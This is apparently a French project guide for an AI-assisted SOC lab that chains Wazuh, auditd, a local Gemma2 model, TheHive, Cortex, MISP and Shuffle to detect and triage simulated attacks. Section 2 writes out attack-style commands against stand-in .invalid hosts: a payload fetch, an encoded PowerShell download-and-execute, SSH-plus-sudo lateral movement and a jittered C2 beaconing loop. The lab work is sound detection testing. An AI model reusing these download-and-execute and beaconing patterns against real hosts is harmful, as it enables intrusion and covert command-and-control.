




# Guide technique détaillé — SOC Assisté par IA

Ce document explique, étape par étape, **chaque outil utilisé**, **son rôle exact**, **comment les scénarios d'attaque ont été générés techniquement**, et **la preuve visuelle** correspondant à chaque étape du pipeline. Il complète le [README.md](../README.md) avec un niveau de détail pédagogique plus poussé, destiné à préparer une présentation ou une soutenance.

---

## Sommaire

1. [Les outils utilisés et leur rôle](#1-les-outils-utilisés-et-leur-rôle)
2. [Comment les scénarios d'attaque ont été générés](#2-comment-les-scénarios-dattaque-ont-été-générés)
3. [Étape par étape : le trajet complet d'une alerte, avec preuves](#3-étape-par-étape--le-trajet-complet-dune-alerte-avec-preuves)
4. [Comment le triage IA fonctionne exactement](#4-comment-le-triage-ia-fonctionne-exactement)
5. [Comment l'orchestration Shuffle fonctionne exactement](#5-comment-lorchestration-shuffle-fonctionne-exactement)

---

## 1. Les outils utilisés et leur rôle

| Outil | Catégorie | Rôle précis dans ce projet |
|---|---|---|
| **VirtualBox** | Virtualisation | Héberge la VM Ubuntu Server 22.04 qui fait tourner tout le lab, isolée de la machine hôte |
| **Docker / Docker Compose** | Conteneurisation | Fait tourner chaque outil (Wazuh, TheHive, Cortex, MISP, Shuffle) dans un conteneur isolé, reproductible |
| **Wazuh Manager** | SIEM / détection | Applique les règles de corrélation à chaque log reçu, décide de générer une alerte ou non, lui attribue un niveau de criticité et un code MITRE |
| **Wazuh Agent** | Collecte | Tourne sur la machine surveillée, lit les logs système (`journald`, `/var/log/audit/audit.log`) et les transmet au Manager |
| **auditd** | Audit Linux (noyau) | Capture chaque commande exécutée (`execve`) avec ses arguments exacts — le Manager Wazuh seul ne voit pas le contenu des commandes |
| **Wazuh Indexer** | Base de données | Stocke toutes les alertes générées (basé sur OpenSearch), interrogeable par requête |
| **Wazuh Dashboard** | Interface web | Visualisation des alertes, statistiques, vue MITRE ATT&CK |
| **Ollama** | Serveur d'inférence LLM | Fait tourner un modèle de langage localement (pas de cloud, pas d'API payante), expose une API HTTP locale |
| **Gemma2 9B (instruct, q4_0)** | Modèle de langage (LLM) | Le modèle qui lit chaque alerte et produit une classification (type, criticité, code MITRE, résumé, recommandation) |
| **Python (scripts custom)** | Automatisation | Fait le pont entre Wazuh, Ollama et TheHive ; contient toute la logique métier du triage hybride |
| **TheHive** | Gestion d'incidents (Case Management) | Reçoit les cas créés automatiquement, permet à un analyste de les investiguer, d'ajouter des observables |
| **Cortex** | Analyse d'observables | Envoie un indicateur (IP, domaine, hash) à des services externes (VirusTotal, AbuseIPDB) et rapporte le résultat |
| **MISP** | Threat Intelligence | Base de partage d'indicateurs de compromission (IOC), pour capitaliser et partager la connaissance des menaces |
| **Shuffle** | SOAR (orchestration) | Automatise la chaîne complète sans script custom : reçoit une alerte via webhook, l'enrichit, décide, crée un cas |

## 2. Comment les scénarios d'attaque ont été générés

Aucune attaque n'est "fausse" au sens où le code a réellement été exécuté sur la machine — ce sont des **simulations volontairement inoffensives** (domaines `.invalid` qui ne résolvent jamais, commandes bénignes) mais dont le comportement système (processus lancés, arguments, fréquence) est identique à celui d'une vraie attaque. C'est ce que Wazuh/auditd observent réellement, pas un texte de log fabriqué à la main.

Script utilisé : [`scripts/generate_advanced_scenarios.sh`](../scripts/generate_advanced_scenarios.sh).

### Scénario 1 — Phishing / récupération de payload (T1105)

```bash
curl -s -m3 "http://phishing-simulated-payload.example.invalid/malicious.sh" >/dev/null 2>&1
```
**Ce qui se passe réellement** : le processus `curl` est lancé, tente de contacter un domaine qui n'existe pas (`.invalid`, réservé par la RFC 2606 pour ne jamais résoudre), échoue après 3 secondes de timeout. `auditd` capture l'appel `execve("/usr/bin/curl", ["curl", "-s", "-m3", "http://phishing-simulated-payload.example.invalid/malicious.sh"])` — c'est cet enregistrement, avec l'URL en clair dans les arguments, que Wazuh va détecter.

### Scénario 2 — PowerShell suspect / obfusqué (T1059.001)

```bash
pwsh -enc "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQA..."
```
**Ce qui se passe réellement** : `pwsh` (PowerShell Core, installé sur ce lab Linux via snap car pas d'agent Windows disponible) est lancé avec l'argument `-enc` (EncodedCommand), une technique d'obfuscation réelle utilisée par les attaquants pour cacher une commande en Base64. Une fois décodée, la commande dit : `IEX (New-Object Net.WebClient).DownloadString('http://example.invalid/s.ps1')` — télécharger et exécuter un script distant, un pattern d'attaque classique (`Invoke-Expression` + téléchargement). La commande échoue (domaine inexistant) mais l'exécution de `pwsh -enc ...` elle-même est bien réelle et capturée par `auditd`.

### Scénario 3 — Mouvement latéral simulé (T1021.004)

```bash
for i in 1 2; do
  ssh -i ~/.ssh/id_ed25519 ... soc@localhost "sudo -n true; sudo whoami" 
  sleep 2
done
```
**Ce qui se passe réellement** : deux connexions SSH successives vers la machine elle-même (`localhost`, pour simuler un "saut" vers une autre machine du réseau sans avoir de deuxième VM), suivies d'une tentative d'élévation de privilèges (`sudo`). C'est le schéma typique d'un attaquant qui rebondit d'une machine compromise à une autre puis tente d'obtenir les droits root. La règle Wazuh `100105` corrèle ces connexions répétées + élévation dans une fenêtre de 120 secondes.

### Scénario 4 — C2 beaconing simulé (T1071), avec jitter

```bash
PATHS=("checkin" "beacon" "poll" "sync" "hb")
for i in 1 2 3 4 5; do
  p="${PATHS[$((RANDOM % ${#PATHS[@]}))]}"
  curl -s -m3 "http://c2-beacon-simulated.example.invalid/${p}?id=$i&t=$(date +%s)" >/dev/null 2>&1
  sleep $((5 + RANDOM % 8))
done
```
**Ce qui se passe réellement** : 5 requêtes `curl` vers le même domaine factice, mais avec un **chemin d'URL aléatoire** (`checkin`, `beacon`, `poll`...) et un **intervalle de temps aléatoire** entre chaque requête (5 à 12 secondes, pas un pas fixe). C'est volontairement conçu pour imiter un vrai malware qui "bat le rappel" (*beacon*) périodiquement vers son serveur de commande et contrôle (C2), avec du **jitter** pour éviter d'être repéré par un motif trop régulier — exactement la technique qu'utilisent de vrais frameworks C2 (Cobalt Strike, etc.). La règle Wazuh `100103` détecte ≥3 occurrences de la règle `100099` (curl/wget) en 90 secondes.

## 3. Étape par étape : le trajet complet d'une alerte, avec preuves

### Étape 1 — La commande est exécutée sur le système

Le scénario ci-dessus (`generate_advanced_scenarios.sh`) est lancé directement sur la VM via SSH. À cet instant, `auditd` (déjà configuré avec la règle `-a always,exit -F arch=b64 -S execve -k audit-wazuh-c`) intercepte l'appel système.

### Étape 2 — Wazuh reçoit et corrèle l'événement

Le Wazuh Agent lit le log d'audit fusionné (voir [`scripts/audit_merge.py`](../scripts/audit_merge.py) — un détail technique expliqué plus bas), le transmet au Manager, qui applique les règles `100099`/`100101`/`100103`/`100105` et génère une alerte avec un niveau de criticité et un code MITRE ATT&CK déjà pré-assignés par la règle elle-même.

**Preuve — dashboard Wazuh, vue d'ensemble (agent actif, volumétrie réelle du lab)** :


*Explication de la capture* : "Agents Summary" montre 1 agent actif (la VM elle-même). "Last 24 hours alerts" montre la répartition réelle par sévérité — la grande majorité en "Low severity" correspond au bruit de fond normal (connexions, sessions), pas à des attaques.

**Preuve — vue Threat Hunting, répartition MITRE ATT&CK en direct** :


*Explication* : le donut "Top 10 MITRE ATT&CK" montre "Ingress Tool Transfer" (T1105, notre scénario phishing) et "PowerShell" (T1059.001) comme techniques dominantes juste après l'exécution du scénario — preuve directe que nos règles personnalisées classifient correctement dès la détection.

**Preuve — liste des alertes filtrées sur nos règles personnalisées (`rule.groups: pfa_custom`)** :


*Explication* : chaque ligne est une alerte réelle, horodatée à la seconde près, avec le niveau de règle (8, 10, 12) et l'ID de règle (100099, 100101, 100103) — on voit les alertes s'enchaîner exactement dans l'ordre du scénario exécuté.

**Preuve — détail d'une alerte, champs `audit.execve` bruts** :


*Explication* : c'est la preuve la plus importante techniquement. On voit `data.audit.command = curl`, et surtout `data.audit.execve.a3` qui contient l'URL complète avec un chemin variable (`poll?id=4&t=1783187906`) — la preuve que le jitter du scénario 4 fonctionne réellement (le timestamp `t=` change à chaque requête) et que Wazuh voit le contenu réel de la commande, pas juste son nom.

**Preuve — métadonnées de la règle associée** :


*Explication* : `rule.description` (texte lisible par un humain ou par le LLM ensuite), `rule.id = 100099`, `rule.groups` incluant `pfa_phishing` — ces métadonnées seront transmises telles quelles au LLM à l'étape suivante, ce qui explique pourquoi leur formulation exacte compte (voir le "biais de description" documenté dans le README).

**Preuve — dashboard MITRE ATT&CK dédié** :


*Explication* : vue agrégée sur toute la fenêtre de test — "Command and Control" domine largement (cohérent avec nos scénarios phishing/C2), avec un début de couverture sur "Lateral Movement", "Privilege Escalation", etc.

### Étape 3 — Le script Python récupère l'alerte et invoque Gemma2 9B

Le script [`wazuh_ai_triage.py`](../scripts/wazuh_ai_triage.py) interroge l'Indexer Wazuh (`fetch_recent_alerts`), filtre les alertes de faible niveau, et pour celles qui passent le seuil, construit un prompt et l'envoie à Gemma2 9B via l'API Ollama locale (`http://localhost:11434/api/generate`).

**Preuve — sortie réelle du script sur 3 alertes fraîches** :

```
rule.id= 100103 desc= Repeated network fetch commands executed in a short window (possible C2 beaconing)
LLM -> {"mitre_technique": "T1071", "criticite": "haute", ...}

rule.id= 100099 desc= Single network fetch via curl/wget - possible external tool/payload retrieval
LLM -> {"mitre_technique": "T1105", "criticite": "haute", ...}

rule.id= 100101 desc= Suspicious PowerShell execution detected via auditd
LLM -> {"mitre_technique": "T1059.001", "criticite": "critique", ...}
```

*Explication* : les 3 codes MITRE retournés par Gemma correspondent exactement à ceux attendus (voir la colonne "Technique MITRE" du tableau des règles) — la classification IA est correcte à 100% sur ce lot réel, cohérent avec les 15/15 mesurés sur l'ensemble des tests de reproductibilité (voir README).

### Étape 4 — TheHive crée le cas automatiquement

Le script combine la criticité de la baseline Wazuh (fiable) avec le mapping MITRE + résumé de Gemma (précis), et appelle l'API TheHive (`POST /api/v1/case`) pour créer le cas.

**Preuve — liste des cas créés automatiquement** :


*Explication* : chaque cas porte le tag `triage-ia` et le code MITRE correspondant en tag — repérable immédiatement par un analyste qui filtre sa liste de cas.

**Preuve — détail du cas PowerShell** :


*Explication* : sévérité `CRITICAL` (issue de la baseline Wazuh, niveau 12), description générée par Gemma en français ("Un processus PowerShell a été lancé avec l'argument '-enc'...") — le texte n'est pas pré-écrit, il est généré au moment de la requête à partir du contenu réel de l'alerte.

**Preuve — détail du cas C2 beaconing** :


**Preuve — détail du cas phishing/dropper** :


### Étape 5 — Cortex enrichit un indicateur (à la demande)

Si l'analyste (ou un workflow Shuffle) veut en savoir plus sur un indicateur présent dans un cas, Cortex peut interroger des bases externes.

**Preuve — rapport réel de l'analyseur AbuseIPDB** :



*Explication* : pour l'IP `8.8.8.8`, AbuseIPDB répond : `Whitelisted: True`, `Usage: Content Delivery Network`, `Score: 0`, `Reports: 28`. C'est un vrai appel réseau vers un service tiers (AbuseIPDB.com), pas une simulation — la clé API utilisée est un compte gratuit personnel.

**Preuve — historique des jobs Cortex** :



### Étape 6 — MISP centralise l'indicateur

**Preuve — événement MISP avec l'IOC réel du scénario C2** :



*Explication* : l'attribut `domain: c2-beacon-simulated.example.invalid` porte un commentaire reliant explicitement la détection Wazuh (règle 100103) et la classification Gemma (T1071) — MISP devient ainsi la mémoire centralisée qui relie les deux bouts de la chaîne.



### Étape 7 — Shuffle orchestre tout automatiquement (chemin alternatif au script Python)

Au lieu de dépendre du script Python tournant en tâche planifiée, Shuffle permet de tout automatiser via un **workflow visuel**, déclenché en temps réel par chaque alerte Wazuh (via un bloc d'intégration natif `ossec.conf`).

**Preuve — graphe du workflow** :


*Explication* : `Webhook 1` (reçoit l'alerte) → `Enrich cortex status` (vérifie l'état de Cortex, exemple d'enrichissement) → deux branches conditionnelles selon `rule.level` (routes vertes = dernière exécution réussie sur les deux chemins).

**Preuve — exécution terminée avec succès** :


*Explication* : `Status: FINISHED`, le nœud `enrich cortex status` retourne `"status": 200` — Cortex a bien répondu à l'appel HTTP du workflow.

**Preuve — le cas TheHive réellement créé par cette exécution Shuffle** :


*Explication* : le cas `#230`, tag `shuffle-auto`, créé sans aucune intervention humaine ni script Python — uniquement par le workflow Shuffle déclenché par le webhook.

## 4. Comment le triage IA fonctionne exactement

Ce n'est **pas** de l'entraînement (fine-tuning) — aucun poids du modèle n'est modifié. C'est du **prompt engineering / few-shot in-context learning** : à chaque requête, on envoie à Gemma un texte contenant :

1. Des instructions générales ("réponds en JSON avec ces champs exacts...").
2. **10 exemples déjà résolus**, rédigés à l'avance (ex : *"Log contenant `comm=curl` isolé → T1105, jamais T1071"*).
3. L'alerte réelle à classifier, insérée à la fin (jamais vue avant, générée dynamiquement).

Gemma génère sa réponse par inférence statistique, en s'appuyant sur les exemples fournis dans son contexte — sans que rien ne soit sauvegardé de façon permanente. Si on ne renvoyait pas les 10 exemples à chaque fois, le modèle reviendrait immédiatement à ses réponses moins fiables d'avant.

## 5. Comment l'orchestration Shuffle fonctionne exactement

1. **Wazuh Manager** envoie chaque alerte réelle vers un **Webhook Shuffle** via un bloc `<integration><name>shuffle</name>...` dans `ossec.conf` (pas besoin de script intermédiaire).
2. Le nœud **Webhook** reçoit le JSON de l'alerte.
3. Un nœud **HTTP** interroge Cortex (`GET /api/status`) — un exemple d'enrichissement (peut être étendu à une vraie analyse d'observable).
4. Un nœud de **condition** teste `rule.level` : `> 7` → branche "escalade" (cas TheHive sévérité Haute) ; `5-6` → branche "routine" (cas TheHive sévérité Basse) ; `≤ 4` → rien (bruit filtré).
5. Chaque branche appelle l'API TheHive (`POST /api/v1/case`) directement en HTTP, sans script Python.

C'est un chemin **entièrement différent** du script `wazuh_ai_triage.py` (qui, lui, invoque le LLM) — Shuffle démontre qu'on peut aussi automatiser la création de cas de façon purement événementielle et déclarative, sans dépendre de Gemma pour les cas simples.
